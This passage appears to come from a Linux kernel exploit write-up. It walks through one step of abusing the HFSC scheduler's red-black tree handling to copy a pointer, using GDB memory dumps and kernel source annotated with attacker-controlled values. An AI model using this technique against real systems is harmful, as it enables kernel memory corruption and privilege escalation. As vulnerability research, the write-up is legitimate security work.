 Inspecting Evil Grandpa in GDB, we can confirm it points 0x10 bytes before a page vector:

```c {linenos=false}
gef➤  x/40gx 0xffff88810a6d1bf0 // E
0xffff88810a6d1bf0:	0x0000000000000000	    0x0000000000000000
0xffff88810a6d1c00:	0xffff888121326000 ***	    0xffff888121325000
0xffff88810a6d1c10:	0xffff888121327000	    0xffff888121328000
0xffff88810a6d1c20:	0xffff888121329000	    0xffff88812132a000
0xffff88810a6d1c30:	0xffff88812132b000	    0xffff88812132c000
0xffff88810a6d1c40:	0xffff88812132d000	    0xffff88812132e000
```

And that its `rb_left` child corresponds to the address of the first page in the vector:

```c {linenos=false}
gef➤  p *(struct rb_node *)0xffff88810a6d1bf0 // E
$66 = {
    __rb_parent_color = 0x0,
    rb_right = 0x0 <fixed_percpu_data>,
    rb_left = 0xffff888121326000 *** // TARGET
}
```

**@step(7): Ptr copy (2/3): Trigger a RBTree update**

Now, by changing class 2:2, we trigger a tree update. In kernel space, we have the following chain of calls: `hfsc_change_class() -> update_el() -> eltree_update()`. 

The [eltree_update()](https://elixir.bootlin.com/linux/v6.6.90/source/net/sched/sch_hfsc.c#L213) function is defined as follow:

```c
static inline void
eltree_update(struct hfsc_class *cl)
{
	eltree_remove(cl); // Remove the class from the tree
	eltree_insert(cl); // Then re-inserts it
}
```

[eltree_remove()](https://elixir.bootlin.com/linux/v6.6.90/source/net/sched/sch_hfsc.c#L204) calls [rb_erase()](https://elixir.bootlin.com/linux/v6.6.90/source/lib/rbtree.c#L440) which in turn calls [__rb_erase_augmented()](https://elixir.bootlin.com/linux/v6.6.90/source/include/linux/rbtree_augmented.h#L224) to delete the node from the tree:

```c
static __always_inline struct rb_node *
__rb_erase_augmented(struct rb_node *node, struct rb_root *root,
             const struct rb_augment_callbacks *augment)
{
    struct rb_node *child = node->rb_right; // child = C->rb_right = 0
    struct rb_node *tmp = node->rb_left; // tmp = C->rb_left = 0
    struct rb_node *parent, *rebalance;
    unsigned long pc;

    if (!tmp) {
        pc = node->__rb_parent_color; // pc = C->__rb_parent_color = P
        parent = __rb_parent(pc); // parent = P
        __rb_change_child(node, child, parent, root); // WRITE_ONCE(P->rb_right, 0) [1]
        if (child) {
            child->__rb_parent_color = pc;
            rebalance = NULL;
        } else
            rebalance = __rb_is_black(pc) ? parent : NULL;
        tmp = parent;
    }
    // ...
}
```
